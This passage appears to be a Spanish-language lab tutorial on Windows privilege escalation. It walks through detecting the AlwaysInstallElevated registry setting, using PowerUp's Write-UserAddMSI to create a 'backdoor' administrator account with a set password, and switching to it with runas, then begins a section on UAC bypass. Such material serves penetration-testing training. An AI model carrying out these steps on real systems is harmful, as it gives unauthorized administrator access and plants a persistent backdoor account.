 Usando `PowerUp.ps1`, encontramos que la clave [Always Install Elevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) está presente y configurada.

También podemos validar esto utilizando el Command Prompt consultando las claves de registro correspondientes.

```r
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1


C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1
```

Una vez más, podemos hacer uso de PowerUp, utilizando su función `Write-UserAddMSI`. Esta función facilita la creación de un archivo `.msi` directamente en el escritorio.

```r
PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\pmorgan\Desktop> Write-UserAddMSI
	
Output Path
-----------
UserAdd.msi
```

Ahora podemos ejecutar `UserAdd.msi` y crear un nuevo usuario `backdoor:T3st@123` en el grupo Administrators. Ten en cuenta que darle una contraseña que no cumpla con los criterios de complejidad de la contraseña generará un error.

![Image](https://academy.hackthebox.com/storage/modules/67/useradd.png)

De vuelta en CMD, ejecuta `runas` para iniciar el command prompt como el nuevo usuario `backdoor`.

```r
C:\> runas /user:backdoor cmd

Enter the password for backdoor: T3st@123
Attempting to start cmd as user "VDESKTOP3\backdoor" ...
```

---

## Bypass de UAC

A pesar de que el nuevo usuario `backdoor` es miembro del grupo `Administrators`, acceder al directorio `C:\users\Administrator` sigue siendo inviable debido a la presencia del User Account Control (UAC). UAC es un mecanismo de seguridad implementado en Windows para proteger el sistema operativo de cambios no autorizados. Con UAC, cada aplicación que requiere el token de acceso de administrador debe solicitar el consentimiento del usuario final.

